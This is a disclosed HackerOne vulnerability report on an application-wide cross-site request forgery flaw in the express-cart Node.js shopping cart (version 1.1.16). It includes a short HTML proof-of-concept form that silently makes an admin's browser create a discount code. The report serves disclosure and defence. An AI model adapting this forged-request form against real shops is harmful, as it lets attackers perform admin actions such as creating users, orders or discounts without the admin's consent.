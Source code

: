 # [express-cart] Wide CSRF in application

## Report Details
- **Report ID**: 800356
- **URL**: https://hackerone.com/reports/800356
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-20T08:09:27.174Z
- **Disclosed**: 2020-07-21T07:58:43.093Z

## Reporter
- **Username**: tuo4n8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

I would like to report CSRF in ``express-cart` 
It allows attacker cheat admin to do bad behaviors . Main reason is csrf token isn't used , vulnerability is application wide .

# Module

**module name:** `express-cart`
**version:** `1.1.16`
**npm page:** `https://www.npmjs.com/package/express-cart`

## Module Description

> expressCart is a fully functional shopping cart built in Node.js (Express, MongoDB) with Stripe, PayPal, Authorize.net, Adyen and Instore payments.

## Module Stats

[1] weekly downloads : 21

# Vulnerability

## Vulnerability Description

> Description about how the vulnerability was found and how it can be exploited, how it harms package users (data modification/lost, system access, other.

- Through csrf attacker can do : create product , order , user , create discount codes ,.... (required admin action)

## Steps To Reproduce:

> Detailed steps to reproduce with all required references/steps/commands. If there is any exploit code or reference to the package source code this is the place where it should be put.

- Demo create discount codes :   (View detail on clip )

1.  Create PoC with HTML (generated by burpsuite)   

2.   Admin click    

3.  `discount code` is created   

- PoC :   

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:1111/admin/settings/discount/create" method="POST">
      <input type="hidden" name="code" value="CSRF&#45;CODE&#45;DEMO" />
      <input type="hidden" name="type" value="percent" />
      <input type="hidden" name="value" value="30" />
      <input type="hidden" name="start" value="21&#47;02&#47;2020&#32;14&#58;32" />
      <input type="hidden" name="end" value="22&#47;02&#47;2020&#32;14&#58;32" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [Y/N]  N
- I opened an issue in the related repository: [Y/N]  N

> Hunter's comments and funny memes goes here

## Impact

attacker can do admin privileges

## Attachments
- csrf.mp4
